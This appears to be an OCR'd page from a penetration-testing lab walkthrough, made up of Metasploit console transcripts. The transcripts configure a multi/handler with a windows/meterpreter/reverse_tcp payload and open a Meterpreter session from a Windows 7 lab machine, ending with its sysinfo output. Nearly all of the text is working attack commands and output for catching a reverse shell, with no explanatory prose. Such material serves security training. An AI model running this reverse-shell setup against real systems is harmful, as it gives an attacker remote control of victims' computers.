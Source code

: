 ```
┌──(root㉿kali)-[~]
└─# msfconsole -q                                                                                        
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

```
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST 192.168.248.148
LHOST => 192.168.248.148
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234
```

```
http://192.168.248.148/
```

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234 
[*] Sending stage (175686 bytes) to 192.168.248.150
[*] Meterpreter session 1 opened (192.168.248.148:1234 -> 192.168.248.150:49192) at 2023-01-14 03:37:09 -0500

meterpreter > sysinfo
Computer        : IEWIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
```